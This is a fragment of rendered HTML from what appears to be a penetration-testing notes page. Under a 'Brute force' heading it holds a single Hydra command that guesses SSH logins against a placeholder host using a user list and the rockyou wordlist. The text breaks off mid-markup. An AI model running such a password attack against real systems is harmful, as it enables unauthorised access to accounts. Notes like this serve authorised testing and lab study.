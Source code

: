 <div data-key="3239cfd1f2e645cbb0421d3a18d0859c" class="r-1oszu61 r-1xc7w19 r-1phboty r-1yadl64 r-deolkf r-6koalj r-1mlwlqe r-eqz5dr r-1q142lx r-crgep1 r-ifefl9 r-bcqeeo r-t60dpp r-xd6kpl r-tskmnb r-1yzf0co r-bnwqim r-417010">

<div data-block-content="3239cfd1f2e645cbb0421d3a18d0859c" class="r-1oszu61 r-1xc7w19 r-1phboty r-1yadl64 r-deolkf r-6koalj r-1ro0kt6 r-eqz5dr r-16y2uox r-1wbh5a2 r-crgep1 r-ifefl9 r-bcqeeo r-t60dpp r-bnwqim r-417010">

<div dir="auto" class="css-901oao r-1nf4jbm r-gg6oyi r-ubezar r-16dba41 r-135wba7 r-fdjqy7 r-1xnzce8"><span data-key="ea4859aa48674df0940a19000dc66d49"><span data-offset-key="ea4859aa48674df0940a19000dc66d49:0">Brute force</span></span></div>

</div>

</div>

</div>

<div>

<div data-key="425d6214240a4ab9988389ff9fa62deb" class="r-1oszu61 r-1xc7w19 r-1phboty r-1yadl64 r-deolkf r-6koalj r-1mlwlqe r-eqz5dr r-1q142lx r-crgep1 r-ifefl9 r-bcqeeo r-t60dpp r-1l7z4oj r-95jzfe r-1yzf0co r-bnwqim r-417010">

<div data-block-content="425d6214240a4ab9988389ff9fa62deb" class="r-1oszu61 r-1xc7w19 r-1phboty r-1yadl64 r-deolkf r-6koalj r-1ro0kt6 r-eqz5dr r-16y2uox r-1wbh5a2 r-crgep1 r-ifefl9 r-bcqeeo r-t60dpp r-bnwqim r-417010">

<div class="css-1dbjc4n r-1vckr1u r-z2wwpe r-tskmnb r-bnwqim">

<div spellcheck="false" class="r-1oszu61 r-1xc7w19 r-1phboty r-1yadl64 r-deolkf r-6koalj r-1mlwlqe r-eqz5dr r-1q142lx r-crgep1 r-ifefl9 r-bcqeeo r-1jwulwa r-t60dpp r-xd6kpl r-bnwqim r-417010">

<div class="css-1dbjc4n r-6koalj r-18u37iz">

<div contenteditable="false" class="r-1oszu61 r-1vckr1u r-1xc7w19 r-1phboty r-1yadl64 r-deolkf r-6koalj r-1mlwlqe r-eqz5dr r-18kxxzh r-1q142lx r-crgep1 r-ifefl9 r-bcqeeo r-t60dpp r-1pyaxff r-1xcajam r-1aockid r-184en5c">

<div dir="auto" class="css-901oao r-1rasi3h r-uibjmv r-1b43r93 r-16dba41 r-hbpseb r-1ff274t">1</div>

</div>

<div dir="auto" class="css-901oao r-1nf4jbm r-uibjmv r-1b43r93 r-16dba41 r-hbpseb r-1v6e3re r-116b19x r-1xnzce8 r-yrgyi6"><span data-key="674ef320d3114b219c998436d28a4aff"><span data-offset-key="674ef320d3114b219c998436d28a4aff:0">hydra -v -L user.txt -P /usr/share/wordlists/rockyou.txt -t</span> <span data-slate-leaf="true" data-offset-key="674ef320d3114b219c998436d28a4aff:1" class="r-11faab8">16</span> <span data-offset-key="674ef320d3114b219c998436d28a4aff:2"></span> <span data-slate-leaf="true" data-offset-key="674ef320d3114b219c998436d28a4aff:3" class="r-qtrn9a">$ip</span> <span data-offset-key="674ef320d3114b219c998436d28a4aff:4"></span> <span data-slate-leaf="true" data-offset-key="674ef320d3114b219c998436d28a4aff:5">ssh</span></span></div>

</div>

<div class="css-1dbjc4n r-6koalj r-18u37iz">

<div contenteditable="false" class="r-1oszu61 r-1vckr1u r-1xc7w19 r-1phboty r-1yadl64 r-deolkf r-6koalj r-1mlwlqe r-eqz5dr r-18kxxzh r-1q142lx r-crgep1 r-ifefl9 r-bcqeeo r-t60dpp r-1pyaxff r-1xcajam r-1aockid r-184en5c">

